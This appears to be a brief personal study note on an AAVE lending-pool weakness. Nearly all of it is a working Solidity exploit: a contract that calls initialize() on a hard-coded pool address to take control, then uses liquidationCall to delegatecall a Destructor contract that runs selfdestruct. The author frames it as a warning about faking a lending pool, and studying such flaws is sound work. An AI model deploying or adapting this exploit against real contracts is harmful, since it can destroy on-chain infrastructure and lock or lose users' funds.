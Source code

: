Note: Below is an example of why you need to be careful use AAVE as its possible to fake a lending pool. A lot of this is still difficult for me to understand but I want to note the delecall function allowing us to pass a call to another contract. While this is not good practice at all to use there may be some interesting use cases for it. 
```
//SPDX-License-Identifier: MIT
pragma solidity ^0.7.5;

interface IPool {
  function initialize(address) external;
}

contract Contract {
  IPool pool = IPool(0x987115C38Fd9Fd2aA2c6F1718451D167c13a3186);

  constructor() {
    pool.initialize(address(this));
    
  }

  function getLendingPoolCollateralManager() external view returns (address) {
    return address(this);
  }

  function liquidationCall(address,address,address,uint256,bool) external returns(uint, string memory) {
    address(0x5FbDB2315678afecb367f032d93F642f64180aa3).delegatecall(abi.encodeWithSignature("destruct()", "MyName"));
  }
}

// deployed @ 0x5FbDB2315678afecb367f032d93F642f64180aa3
contract Destructor {
  function destruct() external{
    selfdestruct(msg.sender);
  }   
}
```